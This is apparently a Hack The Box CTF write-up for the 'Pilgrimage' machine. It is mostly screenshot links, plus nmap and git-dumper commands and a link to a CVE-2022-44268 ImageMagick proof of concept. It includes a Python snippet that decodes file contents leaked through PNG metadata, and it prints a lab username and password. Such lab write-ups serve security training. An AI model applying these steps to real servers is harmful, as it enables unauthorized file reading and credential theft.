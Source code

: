 # Pilgrimage - Writeup

**Date**: 03/09/2023

**Difficulty**: EASY

**CTF**: [https://app.hackthebox.com/machines/Pilgrimage](https://app.hackthebox.com/machines/Pilgrimage)


---



# Enumeration



`nmap -p- -sS --min-rate 5000 10.10.11.219 -n -Pn -vvv -oG allPorts`

![Untitled](img/Pasted%20image%2020230903133707.png)

`nmap -p22,80 -sCV 10.10.11.219 -oN targeted`

![Untitled](img/Pasted%20image%2020230903134027.png)

![Untitled](img/Pasted%20image%2020230903133850.png)

![Untitled](img/Pasted%20image%2020230903134113.png)

![Untitled](img/Pasted%20image%2020230903134202.png)

`git-dumper http://pilgrimage.htb/ git`

![Untitled](img/Pasted%20image%2020230903134416.png)

![Untitled](img/Pasted%20image%2020230903134454.png)

`whatweb http://pilgrimage.htb`

![Untitled](img/Pasted%20image%2020230903134516.png)



![Untitled](img/Pasted%20image%2020230903134559.png)

![Untitled](img/Pasted%20image%2020230903134620.png)

![Untitled](img/Pasted%20image%2020230903134639.png)

![Untitled](img/Pasted%20image%2020230903134654.png)

![Untitled](img/Pasted%20image%2020230903134739.png)

![Untitled](img/Pasted%20image%2020230903134801.png)

![Untitled](img/Pasted%20image%2020230903134912.png)

![Untitled](img/Pasted%20image%2020230903135239.png)

![Untitled](img/Pasted%20image%2020230903135302.png)

![Untitled](img/Pasted%20image%2020230903135323.png)

![Untitled](img/Pasted%20image%2020230903135358.png)

![Untitled](img/Pasted%20image%2020230903140444.png)

![Untitled](img/Pasted%20image%2020230903140539.png)

https://github.com/voidz0r/CVE-2022-44268

![Untitled](img/Pasted%20image%2020230903140758.png)![Untitled](img/Pasted image 20230903141324.png)

![Untitled](img/Pasted%20image%2020230903141356.png)

![Untitled](img/Pasted%20image%2020230903141510.png)

![Untitled](img/Pasted%20image%2020230903142037.png)

![Untitled](img/Pasted%20image%2020230903142818.png)

```python

import os



os.system("identify -verbose output.png | tail -n +98 | head -n -12 | tr -d '\n' > output.txt")

f=open("output.txt")

hex_string = f.read()

f.close()



print(bytes.fromhex(hex_string).decode("utf-8"))

```

![Untitled](img/Pasted%20image%2020230903145706.png)

![Untitled](img/Pasted%20image%2020230903145848.png)

![Untitled](img/Pasted%20image%2020230903154648.png)

`-emilyabigchonkyboi123`

`emily:abigchonkyboi123`

![Untitled](img/Pasted%20image%2020230903155352.png)

![Untitled](img/Pasted%20image%2020230903155432.png)



![Untitled](img/Pasted%20image%2020230903160621.png)

![Untitled](img/Pasted%20image%2020230903161321.png)

# Privesc

![Untitled](img/Pasted%20image%2020230903160823.png)



![Untitled](img/Pasted%20image%2020230903161601.png)

![Untitled](img/Pasted%20image%2020230903161623.png)



![Untitled](img/Pasted%20image%2020230903161849.png)

![Untitled](img/Pasted%20image%2020230903162502.png)

![Untitled](img/Pasted%20image%2020230903165519.png)

![Untitled](img/Pasted%20image%2020230903165655.png)

![Untitled](img/Pasted%20image%2020230903165540.png)

![Untitled](img/Pasted%20image%2020230903170935.png)

![Untitled](img/Pasted%20image%2020230903171008.png)

![Untitled](img/Pasted%20image%2020230903173112.png)

![Untitled](img/Pasted%20image%2020230903173149.png)





